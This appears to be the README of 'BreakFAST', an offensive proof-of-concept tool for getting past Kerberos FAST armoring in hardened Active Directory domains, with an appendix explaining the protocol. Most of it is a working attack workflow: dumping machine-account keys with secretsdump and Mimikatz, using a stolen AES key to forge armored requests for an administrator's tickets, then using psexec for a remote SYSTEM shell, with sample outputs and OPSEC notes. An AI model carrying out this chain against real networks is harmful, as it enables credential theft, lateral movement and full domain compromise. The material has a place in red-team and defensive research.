



# BreakFAST - Kerberos FAST Armoring Abuse 

> [!NOTE]
> **TLDR.** Use this as `GetTGT.py` or `GetST.py` in Kerberos Armoring hardened domains.

Proof of concept for abusing Kerberos Armoring (MS-KILE), a.k.a FAST (Flexible Authentication Secure Tunneling, RFC-6113). `BreakFAST` can be used in post-ex lateral movement in environments where Kerberos armoring is enabled and preventing you from using your favorite tools such as `GetTGT.py`, `psexec.py` or `evil-winrm`. 


## Harden domain use case

If you are in a domain where legacy authentication is `disabled` and Kerberos armoring is `enabled` you migh observe the following behaviour, where you cannot obtain authenticate via `NTLM` and you cannot obtain a `TGT` because your host is not domain-joined. 


This is where `BreakFAST.py` comes in. Given that you have previously compromised a domain-joined system and recovered its long-term secret by dumping `LSA`, you can use the secrets to forge armored requests remotely. 



As detailed in [this blog](https://www.trustedsec.com/blog/i-wanna-go-fast-really-fast-like-kerberos-fast), the `impacket` suit **does not supports armoring**. Without `BreakFAST`, you must rely on local tools such as `Rubeus`. 

## Tool usage

`BreakFAST.py` can either be used as substitution to impacket's `GetTGT.py`:

```
python3 ./BreakFAST.py -key <key> -machine <machine> [-outfile <.ccache>] identity
```

or as a substitute to impacket's `GetST.py`: 

```
python3 ./BreakFAST.py -key <key> -machine <machine> [-outfile <.ccache>] -spn <SPN> identity
```

The former will give you a `TGT`, the second a `ST` for the target principal - which implies that you get a `TGT` first. If you do not pass `-spn <SPN>` the default behaviour is to request only a `TGT`.

#### Prerequisites

As discussed, this tool requires that you have obtained a **long-term secret key** for a machine account. This secret can be retrieved by dumping `LSA`: 

**Remotely** if the target system (ex: `WIN-D7FNC0765NG`) supports `NTLM` (wAiT bUt Y0u sAiD...) authentication you can use `secretsdump.py`: 

```sh
# Dump LSA on the system you will impersonate for FAST
secretsdump.py OCEAN/Administrateur:'aaaa1234!'@10.0.2.15 -o dump

# Locate the aes256-cts-hmac-sha1-96 Key for the machine account
OCEAN\WIN-D7FNC0765NG$:aes256-cts-hmac-sha1-96:7e1cf276579d969397ca3f2a6b0fa990c1450329d12a52331d6cdf76d35820c9
```

More likely, if the domain is harden and `NTLM` is disabled you cannot use this command and you will have to dump the key **locally**, for example using `Mimikatz`: 

```sh
mimikatz # !+ 
mimikatz # token::elevate
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys

# check for machine account
Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WIN-D7FNC0765NG$
Domain            : OCEAN
Logon Server      : (null)
Logon Time        : 10/12/2025 06:59:29
SID               : S-1-5-20

         * Username : win-d7fnc0765ng$
         * Domain   : OCEAN.NET
         * Password : (null)
         * Key List :
           aes256-cts-hmac-sha1-96       7e1cf276579d969397ca3f2a6b0fa990c1450329d12a52331d6cdf76d35820c9 # this
           ...
```

In the above example, the string `7e1...0c9` corresponds to the long-term `aes256-cts-hmac-sha1-96` key, you might also find `aes128-cts-hmac-sha1-96`, `des-cbc-md4` and other formats. The machine account for which you extract the key will be used to build the FAST armor. 

> [!NOTE]
> This tool currently only supports `aes256-cts-hmac-sha1-96` but other formats will be added. While the RFC discusses `AES128, AES256, DES, 3DES` and `RC4-HMAC` (See [RFC 6113 Appendix A.](https://www.rfc-editor.org/rfc/rfc6113.txt)), MS-KILE defaults to `AES256`.

#### Dependencies

You also have to install the following dependencies : 

```sh
sudo apt-get install libkrb5-dev krb5-config
pip install krb5 gssapi impacket
```

#### Krb5 configuration

Finally, you'll need to configure your `/etc/krb5.conf` file to point to the `KDC` of your choice. To do so you can add the following entry in you `/etc/krb5.conf`:

```sh
[libdefaults]
    default_realm = <TARGET REALM HERE>
    dns_lookup_kdc = false
    dns_lookup_realm = false

[realms]
    <TARGET REAlM HERE> = {
        kdc = <TARGET KDC IP HERE>
        admin_server = <TARGET KDC IP HERE>
    }

[domain_realm]
    .<target realm here> = <TARGET REALM HERE> # check default /etc/krb5.conf for ex.
    <target realm here> = <TARGET REALM HERE>
```

> [!NOTE]
> This configuration can most likely be done programatically, but `python-krb5` does not offer an API for it. Yet, it supports FAST so I've decided to stick with it. **If you have an idea on this please feel free to submit a PR.**

#### Running the tool

Now that you've installed all the dependencies, prepared the long-term key and configured the `krb5` client, you can use:

```sh
# Syntax
python3 ./BreakFAST.py -key <key> -machine <machine> [-outfile <.ccache>] [-spn <SPN>] identity

# Ex. Get a ST for cifs/hostname
python3 ./BreakFAST.py -key 7e1cf276579d969397ca3f2a6b0fa990c1450329d12a52331d6cdf76d35820c9 \
                       -machine WIN-D7FNC0765NG$ \
                       -spn 'cifs@WIN-D7FNC0765NG.ocean.net' \
                       -outfile ST.ccache \
                       OCEAN.NET/Administrateur:'aaaa1234!' \

# Ex. Get a TGT for Administrateur
python3 ./BreakFAST.py -key 7e1cf276579d969397ca3f2a6b0fa990c1450329d12a52331d6cdf76d35820c9 \
                       -machine WIN-D7FNC0765NG$ \
                       -outfile TGT.ccache \
                       OCEAN.NET/Administrateur:'aaaa1234!' \
```

In a nutshell, the above command will emit a `FAST AS-REQ` using the AES Key (since the computer's authentication exchange is **not armored**). The KDC should respond with an armored `FAST AS-REP` containing a `TGT`. This `TGT` is then used as `armor ticket` (see [RFC section 5.4.1](https://www.rfc-editor.org/rfc/rfc6113.txt)) to encrypt `FAST AS-REQ/REP` for the principal (in our case `Administrateur`) using the specified algorithm (in our case, `aes256-cts-hmac-sha1-96`). If the script executes without any issue you should observe the following output: 

```
------------------------------
[*] Received FAST TGT
[*] Saved FAST TGT to ST.ccache
[*] Received FAST ST
[*] Saved FAST ST for cifs@WIN-D7FNC0765NG.ocean.net to ST.ccache
------------------------------
[*] Use with: 	export KRB5CCNAME=ST.ccache
------------------------------
```

The `.ccache` file can then be used as credential cache for all your favorite tools, for example `impacket-psexec` with `-k -no-pass`. To do so, export the environment variable `KRB5CCNAME` and run the tool : 

```sh
export KRB5CCNAME=BreakFAST.ccache
psexec.py -dc-ip 10.0.2.15 -target-ip 10.0.2.15 -k -no-pass OCEAN.NET/Administrateur@WIN-D7FNC0765NG.OCEAN.NET
```

The command should go throught as the `ST` is correctly armored, despite not being emited from a domain-joined system using `lsass` (see [this blog](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)) and you should receive the holy shell:

```
Impacket v0.14.0.dev0+20251204.163933.2347bd3f - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.0.2.15.....
[*] Found writable share ADMIN$
[*] Uploading file EsfaVrJw.exe
[*] Opening SVCManager on 10.0.2.15.....
[*] Creating service jCDd on 10.0.2.15.....
[*] Starting service jCDd.....
[!] Press help for extra shell commands
    Microsoft Windows [version 10.0.20348.4297]

C:\Windows\system32> 
```

**Et voilà !**

## Why would we need to do this ? 

As discussed in [this post](https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/additional-mitigations) from Microsoft, Kerberos FAST armoring is "*part of RFC 6113. When a device supports Kerberos armoring, its TGT is used to protect the user's proof of possession which can mitigate offline dictionary attacks. Kerberos armoring also provides the additional benefit of signed KDC errors this mitigates tampering which can result in things such as downgrade attacks*". 

In other words, Kerberos armoring boils down to adding another layer of encryption (`AES256/128`) on classical `AS-REQ/AS-REP` (and optionnaly on TGS-REQ/TGS-REP, see [this post](https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/additional-mitigations)) to prevent AS-REP Roasting, AS-REQ Roasting, Blind Kerberoasting, etc. 

For example, if we request a `TGT` for a valid user (say, `Administrateur`) providing the correct password (say `aaaa1234!`) from a non-domain-joined machine, we  will get the following response:  

```sh
# Ask for TGT with correct creds
getTGT.py OCEAN/Administrateur:'aaaa1234!' -dc-ip 10.0.2.15

# KDC_ERR_POLICY
Impacket v0.14.0.dev0+20251204.163933.2347bd3f - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KDC_ERR_POLICY(KDC policy rejects request) #fufufufufufufufu
```

> [!NOTE] 
> It should be noted that FAST armoring actually **does not prevent** any of the aformentionned attacks **if the attacker has access to the local system**. 
>
> Basically, `Rubeus` commands that use `lsass` (e.g., `tgtdeleg, kerberoast`) will work with armoring, but non-lsass commands such as `kerberoast /ticket:<blah>`, `asktgt`, `asktgs`, `asreproast`, `kerberoast /tgtdeleg <or /rc4opsec>` will fail and receive a `KDC_ERR_POLICY` response (see [this blog](https://www.trustedsec.com/blog/i-wanna-go-fast-really-fast-like-kerberos-fast)) 
>
> `impacket` tools such as `GetUserSPNs.py`, `GetNPUsers.py` or `getTGT.py` will receive the same error. Same applies to tools such as `evil-winrm` (see [this blog](https://medium.com/@business1sg00d/as-req-roasting-from-a-router-2a216c801a2c)).

From the `KDC` perspective, this is because armoring is deployed as a `GPO` stating to `Fail unarmored authentication requests`, as shown below. As such, even if we previously got a `TGT/ST` (say for our `Administrateur` account or `cifs\host`) that is still *temporaly* valid, we will receive `KDC_ERR_POLICY` if we try to authenticate with it. See [this blog](https://dirteam.com/sander/2012/09/05/new-features-in-active-directory-domain-services-in-windows-server-2012-part-11-kerberos-armoring-fast/) for details.



## OPSEC Considerations

The tool will emit two or three distinct requests depending on wether you use `-spn` or not. Without `-spn`, one `AS-*` exchange is triggered to retrive the armor, and a second one to get the user's `TGT`. If `-spn` is used, an additional `TGS-*` exchange occurs to retrieve the `ST`.

*Fig. FAST AS-REQ/AS-REP*


*Fig. FAST TGS-REQ/REP*


## APPENDIX A. How does FAST armoring actually work ?

Ok nerd. While there has already been great publications on the matter, I found actually quit few details on how this is implemented in MS-KILE (suprised ?). The main ressources to understand the cryptographic approach is here either [RFC 6113](https://www.rfc-editor.org/rfc/rfc6113.txt) or [this blog](https://www.trustedsec.com/blog/i-wanna-go-fast-really-fast-like-kerberos-fast). Based on these, we can sum-up as follows: 

#### 1. FAST AS-REQ

```
Client -> DC
┌─────────────────────────────────────────┐
│         Kerberos AS-REQ                 │
├─────────────────────────────────────────┤
│ PA-FX-FAST (Encrypted with Armor Key):  │ 
│   ├─ PA-ENC-TIMESTAMP                   │
│   │  (User's encrypted timestamp)       │
│   ├─ PA-REQ-ENC-PA-REP                  │
│   │  (Request encrypted reply)          │
│   └─ KRB-FAST-REQ                       │
│      └─ Fast-Options                    │
├─────────────────────────────────────────┤
│ PA-FX-FAST-ARMOR (Armor Ticket):        │
│   └─ Armor TGT (from machine account)   │
└─────────────────────────────────────────┘
```

> The user's pre-authentication data (PA-ENC-TIMESTAMP) is now encrypted within the FAST armor, *making it resistant to offline attacks*.

#### 2. FAST AS-REP

```
DC -> Client
┌─────────────────────────────────────────┐
│         Kerberos AS-REP                 │
├─────────────────────────────────────────┤
│ PA-FX-FAST (Encrypted with Armor Key):  │
│   └─ KRB-FAST-REP                       │
│      ├─ Strengthen-Key                  │
│      │  (Additional key material)       │
│      └─ Encrypted Part                  │
│         └─ User's TGT + Session Key     │
├─────────────────────────────────────────┤
│ Ticket (TGT) - Encrypted with DC key    │
└─────────────────────────────────────────┘
```

> The session key and `TGT` information are encrypted within the FAST armor before being sent to the client.

#### 3. FAST TGS-REQ 

```
Client -> DC
┌─────────────────────────────────────────┐
│         Kerberos TGS-REQ                │
├─────────────────────────────────────────┤
│ PA-FX-FAST (Encrypted with Armor Key):  │
│   └─ KRB-FAST-REQ                       │
│      ├─ Fast-Options                    │
│      ├─ Authenticator                   │
│      └─ Service Ticket Request          │
│         (e.g., CIFS/hostname)           │
├─────────────────────────────────────────┤
│ PA-FX-FAST-ARMOR (Armor Ticket):        │
│   └─ User's TGT (from AS-REP)           │
└─────────────────────────────────────────┘
```

> The authenticator and service ticket request are encrypted within the FAST tunnel.

#### 4. FAST TGS-REP

```
DC -> Client
┌─────────────────────────────────────────┐
│         Kerberos TGS-REP                │
├─────────────────────────────────────────┤
│ PA-FX-FAST (Encrypted with Armor Key):  │
│   └─ KRB-FAST-REP                       │
│      ├─ Strengthen-Key                  │
│      └─ Encrypted Part                  │
│         └─ Service Ticket + Session Key │
├─────────────────────────────────────────┤
│ Service Ticket - Encrypted with service │
│ account key                             │
└─────────────────────────────────────────┘
```

> The service session key is encrypted within the FAST armor.

## Futur works

Obviously this is a PoC, so the code is super minimalist. PRs are welcome to add other encryption algorithms and make a nice little package that can be used *inline* with your favorite `impacket` tools. Otherwise I think it's useful *as-is* to generate a `.ccache` to then use with `-k -no-pass`. This could also be directly added to impacket utils.

~~For now the tool emits a `TGS-REQ` for CIFS\host, but it's hardcoded. We can add an option to query any desired SPN. Basically turnning the tool into `GetFASTTGT.py` and `GetFASTSt.py` alike.~~ **(DONE)**

We should also investigate how this can be extended to `anonymous PKINIT` (which is the other type of armor key generation mechanism described in the RFC (see section 5.4.1.1)) and eventually see how this can be combined with delegation related vectors to trigger FAST AP-REQS relay-style... TBC :)

## References

- RFC 6113: https://www.rfc-editor.org/rfc/rfc6113.txt
- MS-KILE : https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/additional-mitigations
- Devin Boyle on FAST : https://medium.com/@business1sg00d/as-req-roasting-from-a-router-2a216c801a2c
- FAST Kerberoasting: https://www.trustedsec.com/blog/i-wanna-go-fast-really-fast-like-kerberos-fast
- Syfuh's blog : https://syfuhs.net/kerberos-fast-armoring
- SecretsDump : https://github.com/fortra/impacket/blob/master/examples/secretsdump.py
- Krb5 Native : https://github.com/jborean93/krb5-fast
- SecretToKeytab : https://github.com/DovidP/generate-keytab/tree/master
- Semperis on armoring : https://www.semperis.com/blog/new-attack-paths-as-requested-sts/
- Dirteam : https://dirteam.com/sander/2012/09/05/new-features-in-active-directory-domain-services-in-windows-server-2012-part-11-kerberos-armoring-fast/
- Impacket : https://github.com/fortra/impacket
- Mimikatz : https://github.com/gentilkiwi/mimikatz
